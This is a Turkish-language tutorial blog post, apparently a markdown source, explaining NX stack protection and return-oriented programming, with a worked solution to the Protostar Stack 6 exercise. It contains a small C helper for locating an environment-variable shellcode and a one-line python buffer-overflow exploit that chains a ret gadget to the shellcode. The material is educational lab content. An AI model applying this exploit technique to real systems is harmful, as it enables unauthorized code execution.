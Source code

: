 ```yaml
---
layout: post
title:  "Return-oriented programming (ROP)"
author: "Alp Eren Işık"
date:   2020-02-20
categories: [binary-exploitation]
permalink: /:year/:month/:day/:title:output_ext
---
```


# `Non-executable (NX) Stack Nedir ?`  

Yazılımcılar `buffer overflow` saldırılarında programın veri alanı veya stack içerisinde kod çalıştırılmasından usanmış olacaklar ki buna bir hal çare bulmaya karar vermişler ve `non-executable (NX)` isimli birşey çıkmış ortaya. Kısaca bahsetmek gerekirse programımızdaki veri alanı veya stack vs. kısımlarının çalıştırılamaz olarak işaretlenmesine yarıyor.

Tabi bu önlem heykır abilerimizi/ablalarımızı durdurmaya yetmemiş ve bu koruma yöntemini atlatmak için ortaya meşhur 2 teknik çıkmış. `ret2libc (Return-to-libc)` ve `ROP (Return-oriented programming)`. Bu yazıda sizlere dilim döndüğünce `ROP` tekniğini anlatmaya çalışacağım. Diğer yöntemi merak edenler için [Protostar Stack 6](https://github.com/isikerenalp/exploit-education-writeups/blob/master/Protostar/Stack6.md) ve [Protostar Stack 7](https://github.com/isikerenalp/exploit-education-writeups/blob/master/Protostar/Stack7.md) sorularının `ret2libc` saldırısı ile nasıl çözüldüğünü anlattım.

`NOT`: Bu koruma `no-execute` / `never execute` şeklinde adlandırılmakla beraber `Intel` buna `execute disable (XD)` , `ARM` ise `execute never (XN)` ve `Microsoft` da `data execution prevention (DEP)` şeklinde adlandırmalar yapmıştır.

`NOT-2`: Bir programda `NX` koruması olup olmadığını görmek için aşağıdaki komutu kullanabilirsiniz.

    objdump -x program_adi | grep STACK -A 1

NX koruması yok

![nx_yok](/static/img/posts/ROP/nx_yok.png)

NX koruması var

![nx_var](/static/img/posts/ROP/nx_var.png)

# `ROP Nedir ?`

Adından da anlaşıldığı üzere dönüş odaklı programlama anlamına gelmektedir ve NX gibi korumaları atlamak için kullanılan modern bir sömürü tekniğidir.

`ret2libc` tekniğinde programın içinde mevcut olan libc sayesinde shell almıştık  (sanırım `ROP` tekniğinde de `system` adresini bulup shell yürütebiliyoruz veya program içerisinde kullanılmayan bir fonksiyonun adresini bularak çalıştırabiliyoruz). Ancak bazı durumlarda yazılımcılar `libc` kullanımını kısıtladıklarında kullanabileceğimiz en iyi tekniklerden birisi ROP tekniğidir diyebiliriz.

ROP tekniğinde asıl olay `gadget` yani talimatlarda. Bu ufak `gadget`'ları birbirine zincirleyerek hedefe ulaşılmaya çalışılır. (talimatlar genellikle `ret` komutuyla biterler.) Tabi bunun içinde programın mevcut talimatlarının detaylı incelenmesi gerekmektedir. Bununla ilgili [canyoupwn.me](https://canyoupwn.me)'nin youtube kanalında güzel bir anlatım mevcut. [VIDEO](https://youtu.be/HMlFVsSLko8)

Peki neden `ret` komutu ? Bir işlev çağrıldığında stack içerisine bir dönüş adresi yerleştirilir, böylece fonksiyon geri döndüğünde dönüş adresi stackten çıkarılır ve EIP'ye yazılır. Bununla ilgili de liveoverflow kanalında güzel bir anlatım mevcut. [VIDEO](https://youtu.be/zaQVNM3or7k)

    Ret talimatlarının sıralamsı kısaca şöyle

    1-) Stack Pointer adresine bak
    2-) Bu adrese git
    3-) Adresin gösterdiği değeri al (işaret ettiği adresi)
    4-) Bu değeri Instruction Pointer a yaz ve stack pointer adresini/değerini arttır

Sanırım az-biraz temelini anlatabildim. Şimdi çok ufak bir örnek ile (gadget'lar içerisinde boğulmayacak şekilde) nasıl uygulandığına bakalım. İlerleyen zamanlarda belki bol `gadget` içeren bir örnek ekleyebilirim veya ayrı bir yazı yazabilirim :)

Bunun için gene Protostar Stack 6 sorusu üzerinden anlatacağım. Stack 7 sorusu da aynı mantıkda çözülebiliyor.

Yapacağımız şey kısaca `ret` gadget adresini yazdıktan sonra shellcode'umuzun adresini kullanarak EIP'nin üzerine yazmak olacak.

Öncelikle ret kullanabileceğimiz/kullanılmış bir adres bulalım.

![0](/static/img/posts/ROP/0.png)

Adresler geldiğine göre bir de ortam değişkeni olarak bir [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) ekleyelim.

![1](/static/img/posts/ROP/1.png)

Şimdi de bu shellcode'un adresine bir bakalım. Bunun için ufak bir `C` kodu kullanacağız.

    #include <stdio.h>
    #include <stdlib.h>

    int main(int argc, char* argv[]) {
        printf("%p\n", getenv(argv[1]));
        return 0;
    }

`C` kodumuza argüman olarak SHELLCODE ortam değişkeninin ismini verip adresi öğrenebiliriz. Daha sonra exploitimizi hazırlayıp çalıştırabiliriz.

    (python -c "print 'A'*80 + '\x5f\x83\x04\x08' + '\x9f\xf8\xff\xbf'"; cat) | ./stack6

**

![2](/static/img/posts/ROP/2.png)

Ve exploitimizi başarılı bir şekilde çalıştırdık

`Son Not `: ret adresinden sonra C kodumuzun bize söylediği SHELLCODE adresini yazıyoruz. Yukarıdaki ekran görüntüsünde bir önceki bulduğum shellcode adresim kalmış :/
